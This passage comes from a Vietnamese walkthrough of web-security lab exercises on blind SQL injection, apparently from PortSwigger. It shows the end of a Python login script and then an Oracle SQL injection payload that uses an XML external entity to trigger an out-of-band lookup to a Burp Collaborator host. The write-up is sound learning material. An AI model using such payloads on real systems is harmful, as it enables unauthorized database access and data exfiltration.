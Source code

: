 ```python
    'username': username,
    'password': password
}

res = s.post(url=URL, data=data, allow_redirects=True)

if f'Your username is: {username}' in res.text:
    print(f"Logged in as {username}")
    with open('admin.html', 'w') as file:
        file.write(res.text)
else:
    print('Login error')
```

Lợi thế của việc dùng python trong bài này là sau khi tìm được ký tự đúng ở vị trí nào đó, ta có thể dừng và chuyển sang vị trí tiếp theo luôn.

---

### **Blind SQL injection with out-of-band interaction**

Dựa vào mô tả của lab, ta biết được rằng server sẽ truy vấn SQL value của tracking cookie. Tuy  nhiên việc truy vấn này không liên quan gì đến response của server. Ta có thể thử thực hiện DNS look-up thông qua XXE

`' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "[http://o3sw69zoeeal12mv3lbbqthm0d65uu.burpcollaborator.net/](http://o3sw69zoeeal12mv3lbbqthm0d65uu.burpcollaborator.net/)"> %25remote%3b]>'),'/l') FROM dual --`

![Untitled](writeup-media/Untitled%2058.png)
